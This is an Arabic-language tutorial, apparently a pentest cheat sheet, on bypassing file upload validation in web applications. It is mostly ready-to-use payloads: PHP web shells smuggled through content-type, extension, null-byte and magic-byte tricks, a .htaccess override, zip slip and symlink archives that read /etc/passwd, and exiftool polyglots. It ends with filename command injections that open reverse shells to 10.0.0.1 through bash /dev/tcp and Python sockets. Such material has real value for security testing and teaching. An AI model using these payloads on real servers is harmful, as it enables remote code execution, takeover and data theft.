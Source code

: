 كل الفكرة هنا انك تفهم السيرفر بيعمل validation علي اي تشوف يمكن مفوت validation معين فبتفضل تجرب كتير.

# Content-Type Bypass

هنا مثلا مش بيعمل validation علي ال content-type بس عامل whitelist فممكن تجرب حاجة زي كدا:

```http
POST /api/fileupload.php HTTP/2
Host: console.example.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.3
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3RwPFJztxaJvrqAq
Accept: */*

------WebKitFormBoundary3RwPFJztxaJvrqAq
Content-Disposition: form-data; name="file"; filename="hacked.png"
Content-Type: application/x-php

<?php echo system($_GET['e']); ?>
------WebKitFormBoundary3RwPFJztxaJvrqAq--
```

هنا رفع ملف بإمتداد صورة عادي بس بعت معاه content-type ب php وبالتالي لو نجح فعلا في ارسال طلب زي دا يبقا قدر يوصل لثغرة (اذا كان السيرفر مهيئ لكدا فعلا)

# Whitelist Bypass

![](whitelist-file-types.png)

طبعا دول برضو اشكال bypasses ممكن تجربها علي validation زي دا واشهرهم هم:
- `.php%00.png`
- `.php%0a.png`
- `.php%0d.png`

# Blacklist Bypass

![](blacklist-file-types.png)
لو بصيت علي الصورة فيه اكتر من امتداد ل php مثلا وهنا في الكود بتاعنا عامل blacklist علي .php بس وبالتالي نقدر نتخطاه بأي امتداد من اللي في الصورة دول!

# Obfuscating file extensions

ودي انك تتلاعب بال extension لو معمول علي filtration.

يعني لو مفلتر مثلا `php` جرب `pHp` وبرضو في كدا:

- `exploit.php.jpg`
- `exploit.php.`
- `exploit%2Ephp`
- `exploit.asp;.jpg`
- `exploit.asp%00.jpg`
- - Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE` or `xC0 xAE` may be translated to `x2E` if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

او انه السيرفر بشيل كلمة `php.` مثلا .. هنا تقدر تعمل حاجة بالشكل دا:
```
exploit.p.phphp
```

# Overwrite Server Configuration

في بعض الاحيان نقدر نعدل ال configs بتاعة ال web server ع سبيل المثال ملف ال `.htaccess`

```http
------abcdefghijk
Content-Disposition: form-data; name="avatar"; filename=".htaccess" 
Content-Type: text/plain

AddType application/x-httpd-php .abc

------abcdefghijk
```

هنا بقوله اقبل اي ملف `.abc` علي انه ملف php ونفذه عادي!

# Magic Bytes Signature Bypass 

وانت بترفع ملف php تلاقيه مديك 403 forbidden .. جربت تغير ال file extension وال content-type وبرضو مديك 403 ؟ جربت طيب تشوف الرسالة اللي رجعالك؟ يمكن بيقولك Only images are allowed وهنا ممكن تشك انه بيتحقق علي اول كام byte للملف .. لكل امتداد او ملف بيتس بتميزه:

https://en.wikipedia.org/wiki/List_of_file_signatures
هنا هتلاقي كل ال signatures لكل الملفات تقريبا!
![](png-signature.png)
لو جينا نبص علي ال bytes بتاعة ال png file هتلاقيه بيبدأ بحاجة شبه كدا: `‰PNG␍␊␚␊`
ودا اسمه magic bytes

وعلشان تضيف ال hex دا تقدر تكتب حاجة بالشكل التالي:

```bash
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > exploit.php.png
echo '<?php system($_REQUEST['cmd']); ?>' >> exploit.php.png
```

او تضيف دا في ملف php:

```php
‰PNG␍␊␚␊ 
<?php echo system($_GET['cmd']); ?>
```

شوف دا علشان تعرف اكتر:
https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#magic-bytes


# Zip

## Zip slip
في بعض الاحيان الموقع بيطلب فقط ملفات archive زي zip, tar وغيره .. مش ممكن السيرفر بيفط ضغطه في مكان ما؟ .. هنا ممكن تجرب ترفع zip file  فيه ملف بالإسم دا مثلا: `../test.php` علشان لو نفذه انه يفك ضغطه ويحطه في مكان تاني يعني:

```bash
echo '<?php echo system("id");?>' > '../test.php'
zip test.zip '../test.php'
```

## LFI with Symlinks
في طريقة برضو تقدر تجيب منها LFI عن طريق انك تعمل symlink لملف حساس علي جهازك لملف هترفعه .. بالشكل دا:

```bash
ln -s /etc/passwd passwd.txt
zip --symlink test.zip passwd.txt
```

هنا بعمل لينك لملف ال /etc/paswd علي ملف ال passwd.txt ولو الموضوع نجح وجيت تقرأ ملف ال passwd.txt ممكن تلاقي محتوي ملف ال /etc/passwd بتاع السيرفر عادي!


# File Upload Attack on Exiftool

لو الموقع بيعالج الملفات المرفوع ب exiftool فهنا في احتمالية لثغرات خطيرة!

## Polyglot Attack

جهز صورة فاضية بالشكل دا:
```bash
convert -size 32x32 xc:white test.jpg
```

 ثم ضيف الاوامر دي:

```bash
exiftool -Comment="<?php system('ls'); ?>" example.png
exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' exploit.png
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" example.jpg -o polyglot.php
```

اصدار exiftool < v12.38 تقدر تنفذ اوامر os مباشرة من اسم الملف:

```bash
# Ping
filename="touch test; ping -c 1 10.0.0.1 |"

# Reverse shell
filename="touch test; bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |"
filename="touch test; bash -c \"bash -i >& /dev/tcp/10.0.0.1/4444 0>&1\" |"
filename="touch test; python3 -c 'import socket,os,pty;s=socket.socket();s.connect((\"10.0.0.1\", 1234));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"bash\")' |"
```